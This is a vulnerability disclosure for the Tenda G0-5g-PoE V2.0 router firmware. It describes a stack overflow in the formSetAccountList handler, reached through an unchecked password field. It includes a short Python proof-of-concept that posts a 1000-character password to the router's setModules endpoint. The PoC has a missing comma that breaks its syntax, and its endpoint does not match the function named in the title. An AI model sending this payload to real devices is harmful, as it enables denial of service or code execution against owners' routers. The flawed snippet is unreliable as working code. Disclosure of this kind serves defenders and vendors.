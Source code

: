 # Tenda G0-5g-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8 and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-5g-PoEV2.0 V16.01.1.8 were discovered to contain a stack overflow in the formSetAccountList function. Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
